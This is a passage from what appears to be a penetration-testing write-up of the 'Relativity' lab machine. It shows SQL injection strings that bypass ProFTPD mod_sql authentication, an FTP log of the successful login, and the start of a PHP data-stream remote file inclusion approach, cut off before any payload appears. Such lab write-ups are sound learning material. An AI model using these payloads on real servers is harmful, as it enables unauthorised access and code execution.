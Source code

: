 I started googling, and it turns out that ["The mod_sql module is an authentication and logging module for ProFTPD"](http://www.proftpd.org/docs/contrib/mod_sql.html). The good news is, [there is a SQLi vulnerability](https://www.rapid7.com/db/vulnerabilities/ftp-proftpd-sql-injection) in the USER command that might allow access to the server. I don't know the version of our target server, but let's try it!

On http://www.securityfocus.com/bid/33722/exploit you can find some sample exploit strings:

``` plain
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --
password: 1

username: %') and 1=2 union (select &lt;name&gt;,1,&lt;uid&gt;,&lt;gid&gt;,0x2F,0x2F62696E2F62617368); -- a
```

Neither worked, but I tinkered with the comment characters and found out that I could get in either by replacing the *--* with a *#*, or by inserting a space and random characters after the *--*:

``` plain
220 Welcome to Relativity FTP (mod_sql)
Name (192.168.80.128:root): username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
331 Password required for username:.
Password:
230 User username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Next, I found out an interesting looking directory:

``` plain
ftp> pwd
257 "/" is current directory.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
```

It seems we are in the root directory, but the html and image file hint at the web server. So I went to the website again and this time I tried to navigate to that new directory:

{% img center /images/pentest/relativity/secretdir.png 'secretdir' 'secretdir' %}

I looked around at the pages, noticed the URL when accessing them looks something like this: <code>http://192.168.80.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=escher.php</code>. So I tried some local file inclusion, but it didn't get me anywhere. To get to the next step, I needed some external reading and inspiration. For the exploit, we can leverage PHP's [stream wrappers](http://php.net/manual/en/wrappers.php): PHP comes with many built-in wrappers for various URL-style protocols for use with the filesystem functions such as fopen(), copy(), file_exists() and filesize(). On [this blog post](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/) there is a nice explanation and examples of how to get remote code execution by leveraging the [data stream](http://php.net/manual/en/wrappers.data.php). If you look at the examples, you can see that the content passed as a base64 string is being interpreted.
Check page 9 of [this pdf](https://www.imperva.com/docs/HII_Remote_and_Local_File_Inclusion_Vulnerabilities.pdf) for a summary of this remote file inclusion technique. Bottom line: we can base64 encode PHP commands and feed them to the target. So to test this out:
